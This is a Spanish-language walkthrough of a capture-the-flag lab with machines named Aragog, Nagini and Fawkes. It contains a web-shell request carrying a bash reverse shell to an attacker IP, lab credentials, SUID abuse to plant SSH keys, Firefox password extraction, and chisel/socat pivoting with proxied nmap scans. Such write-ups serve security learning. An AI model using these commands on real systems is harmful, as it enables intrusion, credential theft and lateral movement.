 ```python
			$> http://10.10.0.128/joomla/templates/protostar/shell.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/10.10.0.129/4545%200%3E%261%22
```

##### <font color="#245bdb">www-data</font>
Encontramos un fichero en /home/snape/.creds.txt con una pass en base64, supongo que será de snape. snape:Love@lilly -> ssh.

##### <font color="#245bdb">Snape</font>
Tenemos un binario SUID con permisos de hermoine, "su\_cp" es igual que el comando cp. 
Para pivotar a Hermoine vamos a crear en /tmp un "authorized\_keys" con nuestra .pub de kali. 
Nos conectamos con nuestra id\_rsa por ssh con user hermoine.

##### <font color="#245bdb">Hermoine</font>
Encontramos un directorio .mozilla, lo comprimimos y nos lo pasamos a nuestra máquina Kali.
Podemos usar [firefox\_decrypt](https://raw.githubusercontent.com/unode/firefox_decrypt/main/firefox_decrypt.py) , esta herramienta hace un escaneo de todos los perfiles de firefox e intenta recopilar contraseñas guardadas. 

- `python3 firefox_decrypt.py .mozilla/firefox`
	- Extraemos root:@Alohomora#123

##### <font color="#245bdb">ROOT</font>
- Creamos un authorized\_keys con nuestro .pub de kali
- <font color="#e36c09">PWNED!</font>

#### <font color="#fac08f"><u>Pivoting</u> Nagini</font>

Ahora vamos a levantar un cliente de chisel en Nagini para poder ir enumerando la red, necesitamos un socat en Aragog para la redirección a nuestro server chisel en nuestro Kali y el cliente de chisel que apunte a Aragog.
```python 
$> ./socat TCP-LISTEN:1000,fork TCP:192.168.50.221:1234 # Socat en Aragog
$> ./chisel client 10.10.0.129:1000 R:8888:socks

# Ahora necesitamos cambiar el fichero /etc/proxychains.conf, tenemos que cambiar de stric_chain a dimamic_chain y agregar socks5 127.0.0.1 8888 encima de la linea del puerto 1080.
# El Strict_chain realiza las peticiones proxies de forma ordenada según estan configuradas en el archivo de configuración, mientras que dinamic_chain selecciona el proxy necesario para cada  accion, solo necesita estar decalarado en proxychains.conf.
```

### <font color="#de7802">Fawkes</font>
#### <font color="#fac08f">Enumeración</font>

- Con [NetScan](https://raw.githubusercontent.com/r4mnx/Tools/main/NetScan/NetScan.sh) realizo un escaneo desde Nagini y descubrimos una IP
- Lanzamos nmap con el siguiente comando para agilizarlo mediante hilos y bajo el proxy. `seq 1 65535 | xargs -P 500 -I {} proxychains4 nmap -sT -Pn -p{} --open -T5 -v -n 192.168.100.132 2>&1 | grep "tcp open"` 

- Puerto 21 -> Descarga del binario con Anonymous
- Puerto 22
- Puerto 80
- Puerto 2222
- Puerto 9898 -> Ejecución del Binario
